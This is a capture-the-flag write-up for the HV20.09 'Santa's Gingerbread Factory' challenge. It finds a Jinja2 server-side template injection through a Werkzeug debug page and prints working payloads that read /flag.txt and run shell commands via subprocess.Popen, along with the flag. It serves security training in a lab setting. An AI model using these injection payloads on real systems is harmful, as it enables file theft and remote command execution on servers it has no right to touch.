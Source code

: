 # HV20.09 Santa's Gingerbread Factory

## Introduction
_Here you can customize your absolutely fat-free gingerbread man._

_**Note:** Start your personal instance from the `RESOURCES` section on top._

##  Goal / Mission
_Besides the gingerbread men, there are other goodies there. Let's see if you can get the goodie, which is stored in `/flag.txt`._

---

This is how the page looks:
![](gingerbread.png)

There is really not much going on except for the form to modify the bread man.
HTTP request is:
```
POST https://a3e39124-639d-43e4-a01e-f54e4104a6c3.idocker.vuln.land/
content-type: application/x-www-form-urlencoded

eyes=*&name=Hacker&btnSubmit=Get+Gingerbread
---
server: Werkzeug/1.0.1 Python/2.7.16

<html> .. </html>
```

There is a couple of parameters to play with. The server (most likely) runs on 
`Werkzeug/1.0.1 Python/2.7.16`.

I started fuzzing the params. I got lucky when I sent an emoji (😀) in the `name` param.  
Server spit back HTTP 500 and nice debugging info:

![](debugger.png)

We are looking at https://werkzeug.palletsprojects.com/en/1.0.x/debug/.

At first, I thought that the path to solution is by entering the interactive console.
However, the console is protected by a pin. I spent next hour trying to get that pin
somehow but there is no way (I know of). 
Here is the [source code](https://github.com/pallets/werkzeug/blob/1.0.x/src/werkzeug/debug/__init__.py), looks solid.

I should have payed more attention to the error stack trace. It prints this code:
```python
def main(eyes="*", name="Hacker"):
  eyes = request.form.get('eyes', "*")
  name = request.form.get('name', "Hacker")

  text = Environment(loader=BaseLoader()).from_string("Hello, mighty " + name).render()

  print("Text: " + text)
  t = wrap(text, width=30)
  l = 0;
  for line in t:
    if len(line) > l:
      l = len(line);
```

There is an obvious **server-side template injection vulnerability**!

The templating language is [Jinja2](https://werkzeug.palletsprojects.com/en/1.0.x/tutorial/#step-8-templates).

I started looking for known vulnerabilities and found these 2 articles:
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
- https://blog.nvisium.com/p255

Crafting the payload:
```
{{''.__class__}}
Hello, mighty <type 'str'>

{{''.__class__.mro()}}
Hello, mighty [<type 'str'>, <type 'basestring'>, <type 'object'>]

{{''.__class__.mro()[2].__subclasses__()}}
... tons of things, I'm looking for `file`

{{''.__class__.mro()[2].__subclasses__()[40]}}
Hello, mighty <type 'file'>

{{''.__class__.mro()[2].__subclasses__()[40]('/flag.txt', 'r').read()}}
HV20{SST1_N0t_0NLY_H1Ts_UB3R!!!}
```

![](flag.png)

The flag is `HV20{SST1_N0t_0NLY_H1Ts_UB3R!!!}`

---

💡 Fun fact, you can execute shell commands with:
```
{{''.__class__.mro()[2].__subclasses__()[258]}}
Hello, mighty <class 'subprocess.Popen'>

{{''.__class__.mro()[2].__subclasses__()[258]('ls /proc > /tmp/proc.txt', shell=True)}}
Hello, mighty <subprocess.Popen object at 0x7f357ea54a90>
```

Read their outputs:
```
{{''.__class__.mro()[2].__subclasses__()[40]('/tmp/proc.txt', 'r').read()}}
Hello, mighty 1 24 25 7 acpi buddyinfo bus cgroups cmdline consoles cpuinfo crypto devices diskstats ...
```
